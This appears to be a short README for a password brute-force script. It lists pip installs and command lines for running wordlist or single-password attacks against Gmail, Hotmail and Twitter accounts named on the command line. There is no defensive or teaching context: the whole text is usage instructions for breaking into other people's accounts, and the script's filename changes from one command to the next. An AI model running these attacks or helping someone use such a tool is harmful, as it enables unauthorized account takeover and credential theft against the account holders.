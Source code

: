 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

# install :

pip install proxylist

pip install mechanize


Usage:

# Bruteforce Gmail 

python3 Brutoforce.py -g Account@gmail.com -l File_list

python3 Brutoforce.py -g Account@gmail.com -p Password_Single


# Bruteforce Hotmail
 
python3 Brute_force.py -t Account@hotmail.com -l File_list

python3 Brute_force.py -t Account@hotmail.com -p Password_Single


# Bruteforce Twitter

python3 Brutoforce.py -T Account_Twitter -l File_list
